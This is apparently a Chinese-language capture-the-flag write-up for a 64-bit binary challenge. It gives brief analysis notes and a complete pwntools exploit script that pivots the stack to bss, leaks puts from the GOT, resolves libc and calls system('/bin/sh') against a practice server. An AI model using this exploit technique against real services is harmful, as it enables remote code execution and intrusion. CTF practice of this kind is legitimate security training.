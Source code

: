 # W3 stack migration revenge

## 文件分析

下载`pwn`, NX on, PIE off, Canary off, RELRO full  
ghidra分析为64位程序
~~怎么这次都是-2.zip~~

## 解题思路

程序很简单，但是拿不到栈地址，怎么办？  
迁移到bss上后，地址就可控了，回到了上次的栈迁移

## EXPLOIT

```python
from pwn import *
sh = remote('node4.buuoj.cn', 25597)
elf = ELF('stackm')
bss = 0x404800
read = 0x4011ff # read to bss - 0x50

# payload 1, stack pivot to bss
sh.send(b'0'*0x50 + p64(bss) + p64(read))

sh.recvuntil(b'ny\n') #skip
putsGot = elf.got['puts']
putsPlt = elf.plt['puts']
vulnAddr = 0x4011db
popRdiAddr = 0x4012b3
retAddr = 0x401228
leaveRetAddr = 0x401227

# payload 2, stack pivot to popRdi
sh.send(p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(vulnAddr) + b'0'*0x30 + p64(bss - 0x58) + p64(leaveRetAddr))

sh.recvuntil(b'ny\n') # skip
putsGotAddr = u64(sh.recvline()[:6] + b'\0\0')
libc = LibcSearcher.LibcSearcher('puts', putsGotAddr & 0xfff)
libcBase = putsGotAddr - libc.dump('puts')
systemAddr = libcBase + libc.dump('system')
shstrAddr = libcBase + libc.dump('str_bin_sh')

# payload 3
sh.send(p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr) + b'0'*0x30 + p64(bss - 0x90) + p64(leaveRetAddr))

sh.interactive()
```

Done.
